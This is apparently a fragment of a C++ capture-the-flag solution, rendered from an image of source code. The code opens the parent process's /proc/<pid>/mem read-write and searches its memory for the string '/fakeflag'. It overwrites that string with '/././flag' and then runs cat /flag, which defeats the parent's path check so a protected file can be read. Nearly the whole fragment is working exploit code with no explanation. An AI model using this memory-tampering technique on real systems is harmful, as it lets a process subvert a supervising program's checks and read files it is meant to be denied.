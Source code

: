 ```cpp

        if (mode.substr(0, 3) == "rw-") {
            break;
        }

        if (first_start == 0) {
            first_start = start;
        }
        last_end = end;
    }
    f.close();
    long len = last_end - first_start;
    std::cout
        << "first_start " << first_start
        << " last_end " << last_end
        << " len " << len
        << std::endl;

    std::string mem_path = "/proc/" + ppid + "/mem";
    int fd = open(mem_path.c_str(), O_RDWR);
    if (fd == -1) {
        perror("open mem");
        return 1;
    }
    // https://stackoverflow.com/questions/5216326/mmap-on-proc-pid-mem
    char *buf = (char *)malloc(len);
    if (lseek(fd, first_start, SEEK_SET) == -1) {
        perror("lseek first_start");
        return 1;
    }
    int num_read = read(fd, buf, len);
    if (num_read != len) {
        perror("read");
        return 1;
    }
    const char *ff = "/fakeflag";
    const char *tf = "/././flag";
    int l = strlen(ff);
    for (int i = 0; i < len; ++i) {
        if (memcmp(buf + i, ff, l) != 0) {
            continue;
        }
        std::cout << "found /fakeflag at offset " << i << std::endl;
        if (lseek(fd, first_start + i, SEEK_SET) == -1) {
            perror("lseek middle");
            return 1;
        }
        if (write(fd, tf, l) != l) {
            perror("write");
            return 1;
        }
    }
    close(fd);
    free(buf);

    char *arg[] = { "/usr/bin/cat", "/flag", NULL };
    char *env[] = { NULL };
    execve(arg[0], arg, env);
    perror("execve");
}
```

